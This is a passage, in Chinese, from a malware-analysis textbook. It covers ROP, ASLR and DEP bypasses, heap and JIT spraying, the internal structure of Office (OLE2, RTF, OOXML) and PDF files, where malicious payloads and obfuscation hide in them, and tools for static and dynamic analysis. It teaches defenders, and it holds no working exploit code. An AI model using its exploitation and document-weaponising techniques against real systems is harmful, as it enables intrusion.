这项技术并未完全阻止攻击者执行他们的有效载荷并利用内存损坏漏洞。他们发明了一种新技术来绕过 DEP/NX，称为**面向返回的编程**（**ROP**）。

## 面向返回的编程

ROP 的主要思路是，攻击者不直接设置返回地址指向 shellcode，而是将返回地址设置为重定向执行到程序内部或其任何模块中的现有代码，并通过链式指令重现 shellcode。这些被误用的小段代码大致如下：

```
mov eax, 1
pop ebx
ret
```

例如，在 Windows 上，攻击者可以尝试将执行重定向到`VirtualProtect` API，改变栈（或堆）中 shellcode 所在部分的权限，并执行该 shellcode。或者，可以使用`VirtualAlloc`和`memcpy`，或`WriteProcessMemory`、`HeapAlloc`及任何内存复制 API，或`SetProcessDEPPolicy`和`NtSetInformationProcess`等 API 来禁用 DEP。

这里的技巧是使用模块的**导入地址表**（**IAT**）来获取这些 API 的地址，从而攻击者可以将执行重定向到该 API 的开头。在 ROP 链中，攻击者将所有这些 API 所需的参数放置好，接着返回到他们希望执行的 API。下面是一个例子：


图 8.8 – CVE-2018-6892 漏洞的 ROP 链

一些 ROP 链可以在不返回 shellcode 的情况下执行所需的有效载荷。有一些自动化工具帮助攻击者搜索这些小型代码片段，并构造有效的 ROP 链。`mona.py`就是其中一个工具，它是 Immunity Debugger 的插件。

如你所见，仅有 DEP 并不能阻止攻击者执行他们的 shellcode。然而，结合**地址空间布局随机化**（**ASLR**）这两种防御技术，使得攻击者很难成功执行有效载荷。让我们来看一下 ASLR 是如何工作的。

## 地址空间布局随机化

ASLR 是一种缓解技术，被多个操作系统使用，包括 Windows 和 Linux。其背后的想法是随机化应用程序和 DLL 在进程内存中的加载地址。系统不再使用预定义的 `ImageBase` 值作为基址，而是使用随机地址，这使得攻击者很难构造他们的 ROP 链，因为这些链通常依赖于组成它的指令的静态地址。

现在，让我们来看一些常见的绕过方式。

### DEP 和部分 ASLR

为了使 ASLR 生效，要求应用程序及其所有库在编译时启用 ASLR 标志，例如 GCC 编译器的 `-fstack-protector` 或 `-pie -fPIE`，但这并非总是可能的。如果至少有一个模块不支持 ASLR，攻击者就有可能在该模块中找到所需的 ROP 工具。这对于有大量由第三方编写的插件的工具或使用多个不同库的应用程序尤其如此。虽然 `kernel32.dll` 的基址仍然是随机化的（因此攻击者不能直接返回到 API 内部），但它可以通过已加载的非 ASLR 模块的导入表轻松访问。

### DEP 和完整的 ASLR – 部分 ROP 和多重漏洞链

在所有库都支持 ASLR 的情况下，编写利用代码会变得更加困难。已知的技术是将多个漏洞链在一起。例如，一个漏洞负责信息泄露，另一个漏洞负责内存损坏。信息泄露漏洞可能会泄露一个模块的地址，帮助基于该地址重建 ROP 链。利用代码可能包含一个仅由 RVA（相对地址，不包含基地址值）组成的 ROP 链，并实时利用信息泄露漏洞泄露地址，从而重建 ROP 链并执行 shellcode。这种类型的利用在脚本语言中更为常见，例如，利用 JavaScript 攻击漏洞。利用这种脚本语言的强大功能，攻击者可以在目标机器上构造 ROP 链。

其中一个例子是被称为 *CVE-2019-0859* 的本地特权提升漏洞，存在于 `win32k.sys` 中。攻击者利用一种已知的现代 Windows 版本（适用于 Windows 7、8 和 10）技术，称为 `HMValidateHandle` 技术。它使用一个由 `IsMenu` API 调用的 `HMValidateHandle` 函数，该函数在 `user32.dll` 中实现。给定一个已经创建的窗口句柄，该函数返回其在内核内存中的内存对象地址，从而导致信息泄露，这可以帮助设计利用代码，如下所示的屏幕截图所示：


图 8.9 – 使用 HMValidateHandle 技术的内核内存地址泄露

这种技术在基于栈的溢出漏洞中效果很好。但对于堆溢出或使用后释放漏洞，出现了一个新问题，那就是 shellcode 在内存中的位置未知。在基于栈的溢出中，shellcode 存储在栈中，并由 `esp` 寄存器指向，但在堆溢出中，更难预测 shellcode 将位于何处。在这种情况下，通常使用另一种技术，称为 **堆喷射**。

### 完全 ASLR – 堆喷射技术

这种技术的原理是通过在应用程序的内存中填充大量的 shellcode 副本，使得多个地址指向同一 shellcode，从而以非常高的概率执行它。这里的主要问题是确保这些地址指向 shellcode 的开始位置，而不是中间位置。通过使用某种 shellcode 填充技术可以实现这一点。最著名的例子是使用大量的 `nop` 字节（称为**nop 滑梯**、**nop 漫游**或**nop 坡道**），或者任何没有重大效果的指令，放在 shellcode 前面：


图 8.10 – 堆喷射技术

如你所见，攻击者使用了 `0x0a0a0a0a` 地址来指向其 shellcode。由于堆喷射技术的存在，这个具有相对高概率的地址可能指向 shellcode 块中的 `nop` 指令，进而启动 shellcode。

### DEP 和完全 ASLR – JIT 喷射

这种技术与堆喷射非常相似，唯一的区别是块分配是通过滥用 `EXECUTE` 权限来引起的，因为这些权限本应存储生成的汇编指令。通过这种方式，DEP 可以与 ASLR 一起绕过。

## 其他防护技术

为了防止被利用，已经引入了几种其他的防护技术。我们这里只提及其中的一些：

+   `ret` 指令。这种技术使得攻击者更难通过栈溢出漏洞修改返回地址，因为这个值对他们来说是未知的。然而，这种方法有多种绕过方式，其中之一是覆盖 SEH 地址，并在 GS cookie 被检查之前强制触发异常。覆盖 SEH 地址是非常有效的，这也导致了引入其他防护措施来应对这一问题。

+   **结构化异常处理覆盖保护** (**SEHOP**)：这种防护技术会执行额外的安全检查，以确保 SEH 链没有被破坏。

+   **SafeSEH**：这种防护措施直接保护应用程序免受覆盖 SEH 地址的内存破坏。在这种情况下，SEH 地址不再存储在栈中，而是被引用于 PE 头中的一个单独的数据目录，该目录包含所有应用程序函数的 SEH 地址。

这些就是最常见的缓解措施。现在，让我们讨论其他类型的漏洞。

# 分析 Microsoft Office 漏洞

虽然微软 Office 主要与 Windows 操作系统相关联，但它也已经支持 macOS 操作系统几十年了。此外，其他各种办公软件套件，如 Apache OpenOffice 和 LibreOffice，也能识别它使用的文件格式。在本节中，我们将研究恶意文档利用漏洞进行恶意操作，并学习如何分析这些漏洞。

## 文件结构

在分析任何利用时，首先要清楚的是与这些漏洞相关的文件如何结构化。让我们看看攻击者常用的一些与 Microsoft Office 相关的文件格式，这些文件格式被用来存储和执行恶意代码。

### 复合文件二进制格式

这可能是最著名的文件格式，可以在与各种旧版和新版 Microsoft Office 产品相关的文档中找到，例如 `.doc`（Microsoft Word）、`.xls`（Microsoft Excel）、`.ppt`（Microsoft PowerPoint）等。曾经完全是专有格式，后来发布给公众，现在它的规范可以在网上找到。让我们通过一些最重要的部分，来分析它在恶意软件分析中的应用。

**复合文件二进制**（**CFB**）格式，也称为 **OLE2**，提供了一种类文件系统的结构，用于在扇区中存储特定应用的数据流：


图 8.11 – OLE2 头部解析

这是其头部结构，存储在第一个扇区的开始处：

+   `\xD0\xCF\x11\xE0\xA1\xB1\x1A\xE1`（其中前四个字节的十六进制格式类似于 `DOCFILE` 字符串）

+   **Header CLSID**（**16 字节**）：未使用的类 ID；必须为零

+   **Minor version**（**2 字节**）：对于主版本 3 和 4，这个值始终为 0x003E

+   **Major version**（**2 字节**）：主版本号，可以是 0x0003 或 0x0004

+   **Byte order**（**2 字节**）：始终为 0xFFFE，表示小端字节序

+   **Sector shift**（**2 字节**）：作为 2 的幂次方的扇区大小，对于主版本 3 为 0x0009（2⁹ = 512 字节），对于主版本 4 为 0x000C（2¹² = 4,096 字节）

+   **Mini sector shift**（**2 字节**）：始终为 0x0006，表示迷你流的扇区大小（2⁶ = 64 字节）

+   **Reserved**（**6 字节**）：必须设置为零

+   **Number of directory sectors**（**4 字节**）：表示 **目录** 扇区的数量，对于主版本 3 始终为零（不支持）

+   **Number of FAT sectors**（**4 字节**）：FAT 扇区的数量

+   **First directory sector location**（**4 字节**）：表示目录流的起始扇区号

+   **Transaction signature number**（**4 字节**）：存储支持事务的文件中的事务序列号，或其他情况下为零

+   **Mini 流截止大小**（**4 字节**）：始终为 0x00001000，表示与 MiniFAT 数据关联的用户定义数据流的最大大小

+   **第一个 MiniFAT 扇区位置**（**4 字节**）：存储 MiniFAT 扇区的起始扇区号

+   **MiniFAT 扇区数量**（**4 字节**）：用于存储多个 MiniFAT 扇区

+   **第一个 DIFAT 扇区位置**（**4 字节**）：DIFAT 数据的起始扇区号

+   **DIFAT 扇区数量**（**4 字节**）：存储多个 DIFAT 扇区

+   **DIFAT**（**436 字节**）：一个整数数组（每个 4 字节），表示 FAT 扇区的前 109 个位置：


图 8.12 – DIFAT 数组仅提到一个 ID 为 0x2D 的 FAT 扇区

如你所见，可以使用常规的扇区和操作小尺寸扇区的 mini 流来分配内存：

+   **文件分配表**（**FAT**）：这是主要的空间分配器。每个流由一个扇区链表示，其中每个条目包含下一个扇区的 ID，直到链终止符。这个链信息存储在专用的 **FAT 扇区**中：


图 8.13 – FAT 扇区存储关于扇区链的信息

+   **MiniFAT**：这是 mini 流和小型用户定义数据的分配器：


图 8.14 – MiniFAT 扇区存储关于 mini 流链的信息

如前所述，对于链中的每个扇区，都会存储下一个扇区的 ID，直到最后一个包含 `ENDOFCHAIN`（`0xFFFFFFFE`）值的扇区，头部占用一个常规扇区，并根据扇区大小填充其值（如果需要）：


图 8.15 – 头部后续扇区链的示例

还有几个其他辅助存储类型，包括以下内容：

+   **双重间接文件分配表**（**DIFAT**）：存储 FAT 扇区的位置（前面已解释）

+   **目录**：存储存储和流对象的元数据

在这里，流和存储对象的使用方式类似于典型文件系统中的文件和目录：


图 8.16 – 单个存储对象中的多个流

根目录将是目录链中第一个扇区的第一个条目；它既作为流又作为存储对象。它包含指向存储 mini 流的第一个扇区的指针：


图 8.17 – 根目录

在 `.xls` 文件中，`Workbook` 主要流遵循 `.doc` 文件，`WordDocument` 流应以 **FIB** 结构开头。

知道文件结构如何允许逆向工程师识别可能导致意外行为的异常。

现在，让我们专注于 **富文本格式**（**RTF**）文档。

### 富文本格式

RTF 是另一种专有的微软格式，具有公开的规范，可用于创建文档。最初其语法受 **TeX** 语言影响，这是由唐纳德·克努斯开发的跨平台语言。第一版的阅读器和写入器与微软 Word 产品一同发布，适用于 Macintosh 计算机。与我们描述的其他文档格式不同，它在通常的文本编辑器中是人类可读的，无需任何预处理。

除了实际文本外，所有 RTF 文档都使用以下元素实现：

+   `\rtfN`: 可在任何 RTF 文档开头找到的起始控制词，其中 `N` 表示主要格式版本（当前为 1）。

重要提示

值得一提的是，如果 `fN` 的部分未强制执行，RTF 文档将被 MS Office 视为有效，即使其不存在或替换为其他内容。

+   `\ansi`: 在 `\rtfN` 之后的受支持字符集之一。

+   `\fonttbl`: 引入字体表组的控制词。

+   `\pard`: 重置为默认段落属性。

+   `\par`: 指定新段落（或当前段落的结束）。

+   **分隔符**: 标志着 RTF 控制词的结束。总共有三种类型的分隔符：

    +   **空格**: 视为控制词的一部分。

    +   **非字母数字符号**: 终止控制词，但不包括在其中。

    +   **带可选连字符的数字（用于指定负数）**: 表示数值参数；可以是正数或负数。

+   **控制符号**: 这些符号包括反斜杠，后跟非字母字符。这些与控制词处理方式相同。

+   **组**: 组由文本和控制词或指定相关属性的符号组成，所有这些都被大括号包围。

嵌入式可执行负载通常存储在以下区域：

+   `\object` 控制词的 `\objdata` 参数。数据可以是各种数据格式，并使用 `\objclass` 控制词指定。以下是一些示例格式：

    +   OLE2（例如，Word.Document.8）

    +   OOXML

    +   PDF

+   `\datastore` 块的内容。

+   文档覆盖区域（在 markdown 后的区域）：


图 8.18 – 存储在文档覆盖区域中的恶意可执行文件

除此之外，远程恶意负载可以通过 `\objautlink` 控制词访问。此外，`\objupdate` 常用于重新加载对象，无需用户交互即可实现代码执行。

就混淆而言，存在多种技术，如下所示：

+   在数据中间插入`{\object}`条目

+   插入多个过多的`\bin[num]`条目

+   在对象数据中添加空格：


图 8.19 – 使用过多的\bin 控制字的恶意软件

现在，让我们讨论遵循**Office Open XML**（**OOXML**）格式的威胁。

### Office Open XML 格式

OOXML 格式与较新的 Microsoft Office 产品相关联，并实现在扩展名为*x*的文件中，如`.docx`、`.xlsx`和`.pptx`。在撰写本文时，这是现代 Office 版本使用的默认格式。

在这种情况下，所有信息都存储在**Open Packaging Convention**（**OPC**）包中，这些包是遵循特定结构并存储 XML 和其他数据及其之间关系的 ZIP 存档。

这是其基本结构：

+   `[Content_Types].xml`：此文件可以在任何文档中找到，并为包的各个部分存储 MIME 类型信息。

+   `_rels`：此目录包含包内文件之间的关系。所有具有关系的文件都会在此处有一个同名并以`.rels`扩展名结尾的文件。此外，它还包含一个单独的`.rels` XML 文件，用于存储包关系。

+   `docProps`：此处包含几个描述与文档相关的特定属性的 XML 文件 - 例如，`core.xml`用于核心属性（如创建者或各种日期），`app.xml`用于页面数、字符数等。

+   `<特定文档类型的目录>`：此目录包含实际的文档数据。其名称取决于目标应用程序。以下是一些示例：

    +   `word`代表 Microsoft Word：主要信息存储在`document.xml`文件中。

    +   `xl`代表 Microsoft Excel：在这种情况下，主文件将是`workbook.xml`。

    +   `ppt`代表 Microsoft PowerPoint：这里，主要信息位于`presentation.xml`文件中。

现在我们已经熟悉了常见的文档格式，是时候学习如何分析利用它们的恶意软件了。

## MS Office 漏洞的静态和动态分析

在本节中，我们将学习如何分析恶意 Microsoft Office 文档。在这里，我们将专注于利用漏洞的恶意软件。宏威胁将在*第十章*，*脚本和宏 - 反向工程，解混淆和调试*中进行讨论，因为从技术角度来看，它们并不被分类为漏洞利用。

### 静态分析

有很多工具允许分析员查看原始 Microsoft Office 格式，如下所示：

+   **oletools**：一套独特的强大工具，允许分析人员分析与 Microsoft Office 产品相关的所有常见文档。以下是一些示例：

    +   **olebrowse**: 一个相当基础的 GUI 工具，允许你浏览 CFB 文档

    +   **oledir**: 显示 CFB 文件中的目录条目

    +   **olemap**: 显示文档中存在的所有扇区，包括头部

    +   **oleobj**: 允许你从 CFB 文件中提取嵌入的对象

    +   **rtfobj**: 几乎与 oleobj 相同的功能，但这次是针对 RTF 文档

+   **oledump**: 这个强大的工具能够提供有关文档中流的宝贵信息，并提供转储和解压选项。

+   **rtfdump**: 另一个由同一作者开发的工具，旨在帮助分析 RTF 文档。

+   **OfficeMalScanner**: 提供多种启发式分析方法，能够搜索和分析 shellcode 条目，以及加密的 MZ-PE 文件。对于 RTF 文件，它有一个专用的**RTFScan**工具。

关于较新的基于 Open XML 的文件（如`.docx`、`.xlsx`和`.pptx`），可以使用**officedissector**，这是一个用 Python 编写的解析库，专为安全分析 OOXML 文件而设计，能够自动化某些任务。但总体而言，一旦解压，它们总是可以用你喜欢的文本编辑器进行 XML 高亮分析。类似地，正如我们之前提到的，RTF 文件不一定需要任何特定软件，几乎可以在任何文本编辑器中分析。

在进行静态分析时，通常最好先提取宏（如果存在的话），并检查是否存在其他非漏洞相关的技术，例如 DDE 或 PowerPoint 操作（这些分析会在*第十章*中讲解，*脚本与宏—逆向分析、去混淆和调试*）。然后，需要检查是否存在任何 URL 或高熵二进制块，因为它们可能表明存在 shellcode。只有在这一点之后，才有意义深入挖掘文档结构中的异常，这些异常可能表明存在漏洞。

### 动态分析

这些类型漏洞的动态分析可以分为两个阶段：

+   **高级分析**: 在这一阶段，你必须重现并确认恶意行为。通常包括以下步骤：

    1.  **找出实际的漏洞载荷**: 通常，这部分可以在静态分析阶段完成。否则，可以设置各种行为分析工具（文件系统、注册表、进程和网络监控器），并在漏洞触发的下一步中寻找可疑条目。

    1.  **确定受此漏洞影响的产品版本**: 如果漏洞已经公开，通常会包含已确认的受影响版本。否则，可以在不同的虚拟机快照中安装多个版本，以便找到至少一个能可靠重现漏洞触发的版本。

+   **低级**: 在许多情况下，这个阶段并不需要，因为我们已经知道漏洞应该做什么以及哪些产品受到影响。然而，如果我们需要验证漏洞的 CVE 编号或处理零日漏洞，可能需要弄清楚到底是哪个 bug 被利用了。

一旦我们能够可靠地重现触发的漏洞，我们可以将其附加到相应 Microsoft Office 产品的目标模块，并继续调试，直到我们看到负载被触发。然后，我们可以拦截这一时刻，深入研究它是如何工作的。

# 研究恶意 PDF

**便携式文档格式**（**PDF**）是由 Adobe 在 90 年代开发的，目的是统一地呈现文档，无论使用什么应用软件或操作系统。最初是专有的，2008 年发布为开放标准。不幸的是，由于其流行，多个攻击者滥用它来传递恶意负载。让我们看看它们是如何工作的以及如何分析它们。

## 文件结构

PDF 是一个树形文件，由实现八种数据类型之一的对象组成：

+   `空对象`: 表示缺少数据。

+   `布尔值`: 经典的真/假值。

+   `数字`: 包括整数和实数值。

+   `名称`: 这些值可以通过前面的斜杠来识别。

+   `字符串`: 用圆括号括起来。

+   `数组`: 用方括号括起来。

+   `字典`: 在这种情况下，使用双大括号。

+   `流`: 这些是主要的数据存储块，支持二进制数据。流可以被压缩以减少相关数据的大小。

除此之外，还可以借助百分号（`%`）符号使用注释。

所有复杂的数据对象（如图像或 JavaScript 条目）都使用基本数据类型存储。在许多情况下，对象会有相应的字典，字典中会提到数据类型，并且实际数据存储在流中。

PDF 文档通常以 `%PDF` 签名开始，后跟格式版本号（例如，1.7），中间用连字符分隔。然而，由于 PDF 文档是从末尾读取的，因此不能保证这一点，不同的 PDF 查看器允许在签名前插入不同数量的任意字节（在大多数情况下，至少为`1000`个字节）：


图 8.20 – 有效文档的 %PDF 签名前的任意字节

可以使用多个关键字定义数据对象的边界和类型，如下所示：

+   `%PDF` 签名）：


图 8.21 – PDF 文档中的 xref 表

另一个不太常见的选项是**交叉引用流**，它起着相同的作用。

+   `obj` 关键字由对象编号及其生成编号（在文件更新时可以增加）组成，所有内容用空格分隔：


图 8.22 – PDF 文档中对象的示例

+   **stream/endstream**：可用于定义存储实际数据的流。

+   `startxref` 关键字指定索引表的偏移量和 *%%EOF* 标记。

以下是分析恶意 PDF 时，分析人员可能感兴趣的最常见条目：

+   `/Type`：定义相关对象数据的类型。以下是一些示例：

    +   `/ObjStm`：对象流是一种复杂的数据类型，可用于存储多个对象。通常，它伴随有其他几个条目，例如 `/N` 用于定义嵌入对象的数量，`/First` 用于定义第一个对象的偏移量。流的第一行定义了嵌入对象的编号和偏移量，所有内容由空格分隔。

    +   `/Action`：描述要执行的动作。其类型如下：

        +   `/Launch`：定义执行指定应用程序的启动动作，应用程序通过 `/F` 值指定，其参数通过 `/P` 值指定。

        +   `/URI`：定义 URI 操作以解析指定的 URI。

        +   `/JavaScript`：执行指定的 JavaScript 片段，`/JS` 定义了一个文本字符串或一个包含 JavaScript 代码块的流，该代码块将在动作（呈现或 JavaScript）触发后执行。

        +   `/Rendition`：也可用于执行 JavaScript。可以使用相同的 `/JS` 名称来指定它。

        +   `/SubmitForm`：将数据发送到指定的地址。URL 在 `/F` 条目中提供，并可能在钓鱼文档中使用。

    +   `/EmbeddedFiles`：可用于存储辅助文件，例如恶意载荷。

    +   `/Catalog`：这是对象层次结构的根。它定义了对其他对象的引用，如下所示：

        +   `/Names`：一个可选的文档名称字典。它允许通过名称而不是引用来引用一些对象——例如，使用 `/JavaScript` 或 `/EmbeddedFiles` 映射。

        +   `/OpenAction`：指定打开文档后要显示的目标（通常，这对于恶意软件分析无关紧要）或执行的动作（参见前面的列表）。

        +   `/AA`：指定与触发事件相关的附加动作。

+   `/XF`：指定基于 XML 的表单。它可以包含嵌入的 JavaScript 代码。

+   `/Filter`：该条目定义了要应用于相关流的解码过滤器，以使数据变得可读。`/FFilter` 可用于流的外部文件。对于某些过滤器，可以使用 `/DecodeParms`（或 `/FDecodeParms`）指定可选参数。如果需要，可以级联多个过滤器。过滤器主要分为两类：压缩过滤器和 ASCII 过滤器。以下是一些常见的恶意软件中使用的例子：

    +   `/FlateDecode`：可能是最常见的压缩文本和二进制数据的方式，它使用 `zlib/deflate` 算法：


图 8.23 – PDF 文档中使用的 /FlateDecode 过滤器

+   `/LZWDecode`: 在这种情况下，使用 LZW 压缩算法。

+   `/RunLengthDecode`: 在这里，数据使用 **游程编码**（**RLE**）算法进行编码。

+   `/ASCIIHexDecode`: 数据使用 ASCII 中的十六进制表示法进行编码。

+   `/ASCII85Decode`: 另一种编码二进制数据的方式，在这种情况下，使用 ASCII85（也称为 Base85）编码。

+   `/Encrypt`: 文件尾部字典中的一个条目，指定该文档受密码保护。相应对象中的条目指定了保护的方式：

    +   `/O`: 该条目定义了所有者加密文档。通常用于 DRM（数字版权管理）目的。

    +   `/U`: 与所谓的用户加密文档相关联，通常用于保密。恶意软件作者可能会利用它绕过安全检查，然后给受害者提供密码以打开文件。

值得一提的是，在现代规范中，可以使用 `#XX` 十六进制表示法替换这些名称的部分（甚至是整个名称）。因此，`/URI` 可以变成 `/#55RI`，甚至是 `/#55#52#49`。

一些条目可能会引用其他对象，使用字母 *R*。例如，`/Length 15 0 R` 表示实际的长度值存储在一个单独的对象中，即 15，在第 0 代。当文件更新时，会添加一个带有递增代号的新对象。

## PDF 文件的静态与动态分析

现在，是时候学习如何分析恶意 PDF 文件了。在本节中，我们将介绍一些可以帮助分析的工具，并提供有关何时以及如何使用它们的指南。

### 静态分析

在许多情况下，静态分析几乎可以回答工程师在分析这些样本时遇到的任何问题。多种专用开源工具可以使这一过程变得相当简单。让我们来看看其中一些最流行的工具：

+   `-a`: 显示 PDF 样本的统计信息

+   `-O`: 解析 `/ObjStm` 对象

+   `-k`: 搜索感兴趣的名称

+   `-d`: 使用 `-o` 参数指定的对象进行转储

+   `-w`: 原始输出

+   `-f`: 通过解码器传递对象

+   **peepdf**: 这是恶意软件分析人员工具箱中的另一个工具，提供多种有用的命令，旨在识别、提取、解码和美化提取的数据。* **PDFStreamDumper**: 这款 Windows 工具将多个功能结合在一个全面的 GUI 中，并提供在分析恶意 PDF 文档时所需的丰富功能。它重点关注从流中提取和处理各种类型的有效载荷，并支持多种编码算法，包括一些较少见的编码算法。

图 8.24 – PDFStreamDumper 工具

+   **malpdfobj**：该工具的作者采用了一种略有不同的方法，工具会生成一个包含所有从恶意 PDF 中提取和解码信息的 JSON，使其更为可见。这样，如果需要，它可以通过脚本语言轻松解析。

除了这些，多种工具和库可以通过解析 PDF 结构、解密文档或解码流来促进分析。这些工具包括**qpdf**、**PyPDF2**和**origami**。

在对恶意 PDF 文件进行静态分析时，通常可以从列出操作和不同类型的对象开始。特别注意我们之前列出的可疑条目。解码所有编码的流，看看里面有什么，因为它们可能包含恶意模块。

如果 JavaScript 对象已经被提取，请参考*第十章*，*脚本和宏 - 逆向工程、去混淆与调试*中提供的静态和动态分析的建议。在很多情况下，漏洞功能是通过此语言实现的。ActionScript 现在已经不那么常见，因为 Flash Player 已被停止支持。

### 动态分析

在动态分析方面，可以遵循对 Microsoft Office 漏洞所采取的相同步骤：

1.  弄清楚被利用的有效载荷是什么。

1.  确定易受攻击的产品版本。

1.  使用候选产品打开文档，并使用行为分析工具确认它是否触发漏洞。

1.  在易受攻击产品的代码中找到触发漏洞的地方。

如果实际的漏洞主体是用其他语言（如 JavaScript）编写的，那么可能更方便将其中的一部分单独调试，同时模拟漏洞所需的环境。这部分内容也将在*第十章*，*脚本和宏 - 逆向工程、去混淆与调试*中进行讲解。

# 总结

在这一章中，我们熟悉了各种类型的漏洞、针对它们的攻击方式以及旨在应对这些漏洞的不同技术。然后，我们学习了 Shellcode，它如何在不同平台上有所不同，以及如何分析它。

最后，我们介绍了当前在野外常见的其他类型的漏洞攻击——即恶意的 PDF 和 Microsoft Office 文档，并解释了如何检查它们。有了这些知识，你可以判断攻击者的思维方式，并理解可以用来破坏目标系统的各种技术背后的逻辑。

在*第九章*，*逆向字节码语言 - .NET、Java 及更多*中，我们将学习如何处理使用字节码语言编写的恶意软件，工程师在分析过程中可能遇到的挑战，以及如何应对这些挑战。
